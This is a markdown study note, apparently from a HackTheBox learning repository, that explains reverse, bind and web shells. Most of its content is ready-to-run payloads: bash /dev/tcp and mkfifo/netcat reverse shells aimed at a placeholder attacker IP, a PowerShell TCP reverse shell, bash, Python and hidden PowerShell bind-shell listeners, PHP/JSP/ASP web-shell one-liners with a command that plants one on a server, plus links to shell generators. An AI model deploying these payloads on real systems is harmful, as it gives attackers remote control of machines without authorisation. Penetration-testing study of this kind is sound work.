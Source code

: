  ![Banner](./Notes/images/Shell.jpg)

# 🔧 **Type of Shells**

## 1. 🔄 Reverse Shell

  In a reverse shell, the target machine connects back to the attacker’s machine, giving the attacker control.

- **Working:** Attacker sets up a listener; the victim initiates the connection.

- **Use:** Bypassing firewalls (since outgoing connections are often allowed).

- **Example flow:**
  
  The first step is to setup a listner (e.g. netcat listener) on a port of your choosing:

      `nc -lvnp <PORT> `

  Next step is choosing the shell according to the envirnment and services. We can use to get a reverse connection, for bash on Linux compromised hosts and Powershell on Windows compromised hosts:
  
  > Linux (bash):
   
       `bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<Port> 0>&1'`
  > Linux (bash):

      `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <port> >/tmp/f`
  
  > Windows (powershell):
  
      `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<attacker_ip>', <port>);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`


## 2. 🔗 Bind Shell
  
  In a bind shell, the target machine opens a port and listens for incoming connections from the attacker.
  
- **Working:** The victim machine opens a port and listens; the attacker connects to it to gain a shell.
  
- **Use:** Simple to set up in unrestricted environments, but less useful behind firewalls or NAT, since incoming connections may be blocked.

- **Example flow:**

    First, the victim runs a bind shell command on their system. The shell listens on a port (e.g. 0-65535) and waits for an attacker to connect.

  > Linux (bash):

      `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp <Port> > /tmp/f`
  
  > Linux (Python):

      `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept(); while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`

  > Windows (PowerShell):

      `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start(); $client = $listener.AcceptTcpClient(); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + " "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close();`

    Once the victim sets the bind shell, attacker can connect like this:

       nc <victim_ip> <Port>
  
    If successful, this gives the attacker an interactive shell.
    


## 3. 🌐 Web Shell
  
  A web shell is a malicious script uploaded to a web server (usually PHP, ASP, JSP, etc.). It executes system commands sent through HTTP requests.

- **Working:** The attacker uploads a script (e.g., PHP, ASP) to the victim’s web server. This script executes system commands via a browser interface.

- **Use:** Common in web server exploitation, especially after finding a file upload or RCE vulnerability. Allows remote command execution via HTTP/S.


- **Example flow:**

  Writing the Web Shell:
    > PHP (most common):
    
      `<?php system($_REQUEST["cmd"]); ?>`
    
    > JSP:
    
      `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
    
    > ASP:
    
      `<% eval request("cmd") %>`

  Uploading the Shell:
    If an upload feature is vulnerable:
        We can upload shell.php to /var/www/html/ or equivalent.
    We can also simply upload the shell file(i.e. in my case it's ![Web_Shell.php](https://github.com/en1gm4-exe/HackTheBox/blob/main/Notes%20/%20Shell%20/Web_Shell.php))
 
    If we already have RCE:
      
      `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`

    Accessing Web Shell:

      `http://<server_ip>:<port>/shell.php?cmd=id`



# Links for shell generation

> [Powershells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/powershell-cheatsheet/)

> [Reverse shells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools)

> [Bind shells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/#python)

> [Shell generator](https://www.revshells.com/)
